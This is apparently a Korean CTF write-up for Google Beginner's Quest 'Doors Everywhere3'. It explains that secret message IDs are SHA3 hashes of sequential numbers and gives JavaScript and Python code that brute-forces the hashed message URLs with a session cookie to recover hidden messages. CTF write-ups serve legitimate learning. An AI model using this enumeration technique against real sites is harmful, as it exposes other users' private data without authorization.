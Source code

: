 ```yaml
---
layout: post
title: "Doors Everywhere3"
image: GR1.png
date: 2025-07-10 14:55:00 +0900
tags: [web, hacking]
categories: web
---
```


Google Beginner's Request

Doors Everywhere3

***

**Google Beginner's Request - Doors Everywhere3**

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/1.png)

Doors Everywhere3
`Secret messages! Probably the most secure part of this website. There's no way to guess those URLs. ...Unless?`
비밀 메세지를 볼 수 없다고 설명하고 있다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/2.png)

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/3.png)


로그인 뒤 비밀 메세지 안에 개발자 도구를 확인하니
generateHash를 통해 비밀 ID를 해시값으로 변경 후 
그 값으로 Secret ID를 생성 하는 로직이며,
Secret ID를 Path로 입력 시 그 메세지를 확인할 수 있는 로직이다.

개발자 도구의 주석에서 뭐라고 적혀있긴 한데
번역기를 돌려놔서 그런지 잘 모르겠다;;

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/4.png)

어쨌든 generateHash에 들어가는 value값을 변경 시
Secret ID에 원하는 값이 나온다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/5.png)

1의 값을 generateHash로 변경 후 path에 입력 시
비밀 메세지의 예시가 나온다.

# 따라서

1~1000까지의 값들을 Hash로 변경 후
path에 대입하면 값이 나올 것이다.

***

1. 1~1000까지의 해시값 얻기

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/6.png)

1~1000까지의 값을 콘솔로 얻어낸다.

사용한 코드

{% highlight js %}
function generateHash(messageId) {
    const hashHex = sha3_256(messageId.toString());
    console.log(`ID: ${messageId} → Hash: ${hashHex}`);
}

// 1부터 1000까지 해시 생성
for (let i = 1; i <= 1000; i++) {
    generateHash(i);
}
{% endhighlight %}

2. python을 통해 값 얻어내기

얻어낸 1~1000까지의 값을 대입하여 본다.

존재하지 않는 값을 기준으로 잡고,
그 값의 text 길이와 동일하지 않다면 값을 출력하는 로직이다.

{% highlight js %}
import requests
import time
cookies = {
    'session': '[세션값]',
}
import warnings
warnings.filterwarnings('ignore')
headers = {
    'Host': 'secuweb-web.2024-bq.ctfcompetition.com',
    'Sec-Ch-Ua': '"Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7',
    'Priority': 'u=0, i',
    # 'Cookie': 'session=.[세션값]',
}

a=["67b176705b46206614219f47a05aee7ae6a3edbe850bbbe214c536b989aea4d2",
"b1b1bd1ed240b1496c81ccf19ceccf2af6fd24fac10ae42023628abbe2687310",
...
"006e9d54d7ebe3029abf15866b51294ce3defb2bc2c27762570819f0959b250499"]

OriginResponse = requests.get(
    f'https://secuweb-web.2024-bq.ctfcompetition.com/message/1666',
    cookies=cookies,
    headers=headers,
    verify=False,
)

count = 0
for i in a:
    count+=1
    response = requests.get(
        f'https://secuweb-web.2024-bq.ctfcompetition.com/message/{i}',
        cookies=cookies,
        headers=headers,
        verify=False,
    )
    if len(OriginResponse.text) != len(response.text):
        print(response.text)
        print(count)
        print(i)

{% endhighlight %}

하다보면 이렇게 손으로 하는 건 아닌지 걱정도 해주고

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/7.png)

레고 세트 교환식도 한다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/8.png)

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/9.png)

여튼 Flag 획득

**시행착오**

1. PHP 내에 있는 기능을 python으로 옮겨오기가 힘들었다.